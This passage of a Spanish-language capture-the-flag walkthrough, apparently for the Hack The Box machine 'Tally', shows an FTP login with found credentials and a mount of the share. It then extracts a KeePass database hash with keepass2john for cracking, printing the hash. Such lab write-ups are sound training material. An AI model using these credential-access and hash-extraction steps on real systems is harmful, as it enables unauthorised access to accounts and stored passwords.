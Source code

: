 ![imagen4](/assets/images/tally/tally4.png)

Teniendo una cuenta válida, podemos conectarnos.

```shell
ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:guero): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-31-17  10:51PM       <DIR>          From-Custodian
10-01-17  10:37PM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```
Al tener demasiado que revisar, hacemos una montura para que sea más rápido el buscar información.

```shell
curlftps ftp_user:password@10.10.10.59 /mnt/ftps
```
Dentro nos encotramos con un archivo kdbx, que es un archivo común de keepass. y lo intentamos crackear con keepass2john.

```shell
sudo keepass2john tim.kdbx
tim:$keepass$*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```
Y con la herramienta keepassxc abrimos este archivo.

